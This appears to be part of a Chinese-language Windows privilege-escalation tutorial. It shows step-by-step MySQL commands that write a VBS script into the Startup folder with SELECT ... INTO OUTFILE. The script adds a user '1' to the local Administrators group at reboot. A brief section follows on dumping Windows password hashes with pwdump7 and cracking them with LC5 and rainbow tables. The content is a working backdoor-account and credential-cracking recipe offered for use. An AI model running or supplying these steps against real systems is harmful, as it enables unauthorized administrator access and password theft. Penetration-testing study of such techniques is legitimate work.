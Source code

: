 #### 1.查看数据库中有哪些数据表

```mysql
show tables;
```

默认情况下，test数据库中没有任何表的存在。

#### 2.在TEST数据库下创建一个新的表

```mysql
create table a(cmd text);
```

创建了一个表名为a，表中只存放一个字段，字段名为cmd，类型时text文本。

#### 3.在表中插入内容

```mysql
insert into a values("set wshshell=createobject (""wscript.shell"")");
insert into a values("a=wshshell.run (""cmd.exe /c net user 1 1 /add"",0)");
insert into a values("b=wshshell.run(""cmd.exe /c net localgroup Administrators 1 /add"",0)");
```

注意双引号和括号以及后面的“0”一定要输入！这三条命令建立一个VBS脚本程序。

#### 4.查看表a

```mysql
select * from a;
```

表中有三行数据，就是前面输入的内容，确认输入无误后继续往下。

#### 5.输出表为一个VBS的脚本文件

```mysql
select * from a into outfile "C://Users//User//AppData//Roaming//Microsoft//Windows//Start Menu//Programs//Startup//a.vbs";
```

#### 6.重启即可



## 0x08 破解hash提权

#### 1. 所需工具

- pwdump7.exe（windows Hash密码导出工具）

- LC5.exe（windows Hash密码破解工具）
- 彩虹表（哈希链集，用于破解hash）
- getpass.exe（windows Hash密码破解一条龙，但我在网上找到的都运行不了）

#### 2. 步骤

- 上传pwdump7.exe运行获取hash值
- 拿到LC5、彩虹表中破解即可得到管理员密码（需要管理员权限才能执行读取hash操作）
